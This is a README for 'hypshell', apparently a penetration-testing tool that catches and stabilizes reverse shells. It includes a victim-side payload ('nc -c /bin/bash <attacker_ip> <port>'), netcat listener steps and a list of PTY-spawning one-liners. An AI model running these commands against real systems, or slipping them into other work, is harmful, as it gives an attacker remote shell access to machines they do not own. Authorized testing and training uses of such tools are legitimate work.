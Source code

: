 # hypshell
A simple reverse shell handler and stabilizer
# Usage
`usage: ./hypshell.py [options] port`

You can run the script on the attacking machine to listen for incoming connections.

Run this payload on the victim to start a reverse shell:
`nc -c /bin/bash <attacker_ip> <port>`

To make the script executable run: `chmod +x hypshell.py`

**NOTE: To exit the program you have to enter "exit" in the shell session even if you can't read the input**
## Options
```
usage: ./hypshell.py [options] port

positional arguments:
  port                  port number

options:
  -h, --help            show this help message and exit
  -m method, --method method
                        stabilize the connection using the specified method (default: script)
  -v, --verbose         verbose mode
  -i interface, --interface interface
                        specify the network interface to use
  -n, --normal          use normal mode instead of alternate screen
  -c, --stabilize       do not stabilize the shell
  -e, --echo            echo input
  -s shell, --shell shell
                        specify the full path of the shell to use (default: /bin/bash)
  -t, --sigint          handle SIGINT signal
  -r, --sigterm         handle SIGTERM signal
  -q, --sigquit         handle SIGQUIT signal
  -x address, --connect address
                        connect to specified address instead of bind
```
### Examples:
Start a reverse shell listener on port 4242:

`hypshell.py 4242`

Handle `^\` to exit the program:

`hypshell.py 4242 -q`

Use normal mode instead of alternative screen:

`hypshell.py 4242 -n`

Don't stabilize the shell and turn input echo on:

`hypshell.py 4242 -se`

Use connect mode and verbose:

`hypshell.py 4242 -vx 127.0.0.1`

Set shell to `/bin/sh` and use python3 PTY stabilization method:

`hypshell.py 4242 -s /bin/sh -m python3`

# Built-in Methods
Feel free to append your own methods to the code.
```shell
script: /usr/bin/script -qc {shell} /dev/null
socat: /usr/bin/socat exec:'{shell} -li',pty,stderr,setsid,sigint,sane tcp-connect
python3: python3 -c 'import pty; pty.spawn("{shell}")'
perl: perl -e 'exec "{shell}";'
ruby: ruby -e 'exec "{shell}";'
lua: lua -e 'os.execute("{shell}")'
echo: echo os.system('{shell}')
```
# Why?
This tool is used to replace a basic reverse shell listener such as netcat or socat,
instead of running:
```shell
nc -lnvp 4242
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
^Z
stty raw -echo
fg
```
You can just run 1 simple command that will do everything for you:
```shell
hypshell.py 4242
```
# License
GPLv3
# TODO
- add more stabilization methods
- rewrite the tool in C and upload binaries
- more

